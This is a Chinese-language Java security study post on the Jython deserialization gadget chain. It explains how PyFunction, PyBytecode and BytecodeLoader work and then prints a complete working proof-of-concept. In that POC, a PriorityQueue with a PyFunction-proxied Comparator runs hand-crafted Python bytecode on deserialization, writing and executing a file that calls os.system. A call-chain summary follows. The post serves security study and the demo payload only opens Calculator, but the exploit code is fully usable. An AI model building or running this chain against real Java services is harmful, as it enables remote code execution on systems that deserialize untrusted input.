

# Java安全学习—Jython链

Author: H3rmesk1t

Data: 2022.03.16

# Jython 简介
[Jython](https://www.jython.org/#:~:text=Links-,What%20is%20Jython%3F,-Jython%20is%20a) is a Java implementation of Python that combines expressive power with clarity. Jython is freely available for both commercial and non-commercial use and is distributed with source code under the PSF License v2. Jython is complementary to Java and is especially suited for the following tasks:
 - Embedded scripting - Java programmers can add the Jython libraries to their system to allow end users to write simple or complicated scripts that add functionality to the application.
 - Interactive experimentation - Jython provides an interactive interpreter that can be used to interact with Java packages or with running Java applications. This allows programmers to experiment and debug any Java system using Jython.
 - Rapid application development - Python programs are typically 2-10x shorter than the equivalent Java program. This translates directly to increased programmer productivity. The seamless interaction between Python and Java allows developers to freely mix the two languages both during development and in shipping products.

# 前置知识
## 基本使用
 - 使用`execfile`执行任意`python`文件.
 - 使用`exec`执行`python`源字符串.
 - 使用`eval`计算并返回结果.
 - 使用命令空间中定义的函数来进行调用.

```java
package org.h3rmesk1t.Jython;

import org.python.core.PyFunction;
import org.python.core.PyObject;
import org.python.core.PyString;
import org.python.util.PythonInterpreter;
import org.python.util.jythonTest;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/3/16 10:37 上午
 */
public class Demo {

    public static void execfileFunc() throws Exception {

        String filePath = jythonTest.class.getClassLoader().getResource("test.py").getPath();
        System.out.println(filePath);
        PythonInterpreter interpreter = new PythonInterpreter();
        interpreter.execfile(filePath);
    }

    public static void execFunc() throws Exception {

        PythonInterpreter interpreter = new PythonInterpreter();
        interpreter.exec("import os\nos.system(\"open -a Calculator\")\n");
    }

    public static void evalFunc() throws Exception {

        PythonInterpreter interpreter = new PythonInterpreter();
        PyObject pyObject= interpreter.eval("1+1");
        System.out.println(pyObject);
    }

    public static void selfFunc() throws Exception {

        PythonInterpreter interpreter = new PythonInterpreter();
        interpreter.exec("import os\ndef add(m, n):\n   return m+n\n");
        PyFunction function = (PyFunction) interpreter.get("add");
        PyObject object = function.__call__(new PyObject[]{new PyString("Hello, "), new PyString("h3rmesk1t!")});
        System.out.println(object);
    }

    public static void main(String[] args) throws Exception {

        execfileFunc();
        execFunc();
        evalFunc();
        selfFunc();
    }
}
```

<div align=center></div>

## PyFunction
在`Jython`中, 所有的`Python`对象均为`PyObject`, 例如字符串类型`PyString`, 数字类型`PyInteger`, 函数类型`PyFunction`, 文件类型`PyFile`等等, 并且`PyObject`实现了`Serializable`接口.

`org.python.core.PyFunction`是`Jython`中对`python`函数的实现, 集成了`PyObject`, 并实现了`InvocationHandler`接口. `PyFunction`中几个重要的成员变量:
 - `__name__`: `python`函数的名字, 例如`def demo()`中的`demo`.
 - `func_code`: `PyCode`对象, 将函数中具体代码对象, 实际执行功能的类.
 - `func_globals`: `PyStringMap`对象, 用来保存当前函数所在空间的上下文, 用来给函数调用.
 - `objtype`: `PyType`类型的对象, 用来表示该对象的类型.

在`Jython`中, 所有的`python`函数都以`PyFunction`实例的状态存在, 如果想要调用这个函数, 则需要调用`PyFunction`的`__call__`方法, 这个方法有若干个重载方法来接收各种参数以应对种种情况. 跟进`__call__`方法, 可以看到实际上会调用`this.func_code.call`方法.

<div align=center></div>

与此同时, `PyFunction`实现了`InvocationHandler`接口, 会调用`this.__call__`方法, 并将传递的`Java`类转换为`PyObject`传递给执行方法. 当用`PyFunction`作为`InvocationHandler`来动态代理一个接口时, 实际上会返回这个`PyFunction`所代表的`python`函数的执行结果.

```java
public Object invoke(Object proxy, Method method, Object[] args) throws Throwable {
    if (method.getDeclaringClass() == Object.class) {
        return method.invoke(this, args);
    } else {
        return args != null && args.length != 0 ? this.__call__(Py.javas2pys(args)).__tojava__(method.getReturnType()) : this.__call__().__tojava__(method.getReturnType());
    }
}
```
 
## PyBytecode
在`PyFunction`中提到了代表真实`python`代码块并且能够调用的类是`org.python.core.PyCode`, 这个类是一个抽象类, 定义了一个成员变量`co_name`和一些重载的`call`调用方法.

```java
public abstract class PyCode extends PyObject {
    public String co_name;

    public PyCode() {
    }

    public abstract PyObject call(ThreadState var1, PyFrame var2, PyObject var3);

    public PyObject call(PyFrame frame) {
        return this.call(Py.getThreadState(), frame);
    }

    public PyObject call(ThreadState state, PyFrame frame) {
        return this.call(state, frame, (PyObject)null);
    }

    public abstract PyObject call(ThreadState var1, PyObject[] var2, String[] var3, PyObject var4, PyObject[] var5, PyObject var6);

    public abstract PyObject call(ThreadState var1, PyObject var2, PyObject[] var3, String[] var4, PyObject var5, PyObject[] var6, PyObject var7);

    public abstract PyObject call(ThreadState var1, PyObject var2, PyObject[] var3, PyObject var4);

    public abstract PyObject call(ThreadState var1, PyObject var2, PyObject var3, PyObject[] var4, PyObject var5);

    public abstract PyObject call(ThreadState var1, PyObject var2, PyObject var3, PyObject var4, PyObject[] var5, PyObject var6);

    public abstract PyObject call(ThreadState var1, PyObject var2, PyObject var3, PyObject var4, PyObject var5, PyObject[] var6, PyObject var7);

    public abstract PyObject call(ThreadState var1, PyObject var2, PyObject var3, PyObject var4, PyObject var5, PyObject var6, PyObject[] var7, PyObject var8);
}
```

`PyBaseCode`是`PyCode`的标准实现, 也是一个抽象类, 有两个常用的子类: `PyBytecode`和`PyTableCode`. 

<div align=center></div>

这两个子类都包含着可执行的`python`代码, 但是不同之处在于:
 - `PyTableCode`中实际的可执行内容储存为`PyFunctionTable`实例和其索引, 在调用`PyTableCode`时, 会调用`PyFunctionTable`实例的`call_function`方法, 实际上是一种引用的反射调用的方式.

<div align=center></div>

<div align=center></div>

 - `PyB​​ytecode`中实际的可执行内容储存为`co_code`中, 是一个`byte`数组类型的数据, 在调用`PyB​​ytecode`时会调用`call`->`interpret`->`call_function`方法完成函数的调用, 是通过`python`字节码直接调用.

结合前面对`BeanShell`反序列化漏洞的分析, 可以使用`PythonInterpreter`解析`python`代码生成的`PyFunction`动态代理`Comparator`的`comparator`方法, 使用`PriorityQueue`触发反序列化. 但是这种做法需要解决有两个问题:
 - 动态生成的`PyFunctionTable`类无法找到.
 - 部分`python`代码对应的执行类不支持反序列化.

回到之前`PyTableCode`实例, 可执行内容实例`PyFunctionTable`类是一个抽象类且没有任何子类. 它通过`org.python.core.BytecodeLoader`类的`makeCode`方法来利用.

<div align=center></div>

`makeClass`中调用了`BytecodeLoader.Loader`的`loadClassFromBytes`方法, 利用`ASM`从字节码中动态生成类或使用`defineClass`定义类.

```java
public static Class<?> makeClass(String name, byte[] data, Class<?>... referents) {
    BytecodeLoader.Loader loader = new BytecodeLoader.Loader();
    Class[] arr$ = referents;
    int len$ = referents.length;

    for(int i$ = 0; i$ < len$; ++i$) {
        Class referent = arr$[i$];

        try {
            ClassLoader cur = referent.getClassLoader();
            if (cur != null) {
                loader.addParent(cur);
            }
        } catch (SecurityException var9) {
        }
    }

    return loader.loadClassFromBytes(name, data);
}
```

```java
public Class<?> loadClassFromBytes(String name, byte[] data) {
    if (name.endsWith("$py")) {
        try {
            ClassReader cr = new ClassReader(data);
            name = cr.getClassName().replace('/', '.');
        } catch (RuntimeException var4) {
        }
    }

    Class<?> c = this.defineClass(name, data, 0, data.length, this.getClass().getProtectionDomain());
    this.resolveClass(c);
    return c;
}
```

虽然`PyFunctionTable`实现了`Serializable`接口, 但是这样动态加载的类无法经过序列化和反序列化流程, 对于动态生成的类, 反序列化过程使用的`ClassLoader`是无法找到这个类对象的. 因此可以使用`PyB​​ytecode`来替代`PyTableCode`作为`PyFunction`的`PyCode`. 只需要将恶意`python`代码的字节码初始化到`PyB​​ytecode`中, 再使用`PyB​​ytecode`来创建`PyFunction`即可.

# POC

```java
package org.h3rmesk1t.Jython;

import org.python.core.*;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.lang.reflect.Proxy;
import java.math.BigInteger;
import java.util.Comparator;
import java.util.PriorityQueue;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/3/16 10:36 上午
 */
public class JythonExploit {

    public static void main(String[] args) throws Exception {

        String path = "/Users/h3rmesk1t/Downloads/123.py";
        String code = "import os\nos.system('open -a Calculator.app')";

        String pythonByteCode = "7400006401006402008302007D00007C0000690100640300830100017C0000690200830000017403006401008301000164000053";

        // 初始化参数
        PyObject[] consts = new PyObject[]{new PyString(""), new PyString(path), new PyString("w+"), new PyString(code)};
        String[]   names  = new String[]{"open", "write", "close", "execfile"};

        // 初始化 PyBytecode
        PyBytecode bytecode = new PyBytecode(2, 2, 10, 64, "", consts, names, new String[]{"", ""}, "noname", "<module>", 0, "");
        Field      field    = PyBytecode.class.getDeclaredField("co_code");
        field.setAccessible(true);
        field.set(bytecode, new BigInteger(pythonByteCode, 16).toByteArray());

        // 使用 PyBytecode 初始化 PyFunction
        PyFunction handler = new PyFunction(new PyStringMap(), null, bytecode);

        // 使用 PyFunction 代理 Comparator
        Comparator comparator = (Comparator) Proxy.newProxyInstance(Comparator.class.getClassLoader(), new Class<?>[]{Comparator.class}, handler);

        PriorityQueue<Object> priorityQueue = new PriorityQueue<Object>(2, comparator);
        Object[]              queue         = new Object[]{path, code};

        Field queueField = PriorityQueue.class.getDeclaredField("queue");
        queueField.setAccessible(true);
        queueField.set(priorityQueue, queue);

        Field sizeField = PriorityQueue.class.getDeclaredField("size");
        sizeField.setAccessible(true);
        sizeField.set(priorityQueue, 2);

        try {
            // 序列化
            ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
            ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
            objectOutputStream.writeObject(priorityQueue);
            objectOutputStream.close();

            // 反序列化
            ObjectInputStream objectInputStream = new ObjectInputStream(new ByteArrayInputStream(byteArrayOutputStream.toByteArray()));
            objectInputStream.readObject();
            objectInputStream.close();
        } catch (Exception e) {
            e.printStackTrace();
        }

    }
}
```

<div align=center></div>

# 调用链

```java
PriorityQueue.readObject()
    Comparator.compare()
            XThis$Handler.invoke()
                PyFunction.invokeImpl()
                    PyBytecode.call()
```

# 总结
## 利用说明
利用`PriorityQueue`反序列化触发使用`PyFunction`动态代理的`Comparator`的`compare`方法, 调用`PyBytecode`的`call`方法触发恶意`python`代码的执行.

## Gadget
 - kick-off gadget: java.util.PriorityQueue#readObject
 - sink gadget: org.python.core.PyBytecode#call
 - chain gadget: org.python.core.PyFunction#invokes

# 参考
 - [Jython](https://su18.org/post/ysoserial-su18-6/#:~:text=commons%2Dcollections%20%3A%203.2.2-,Jython,-Jython%20%E6%98%AF%20Python)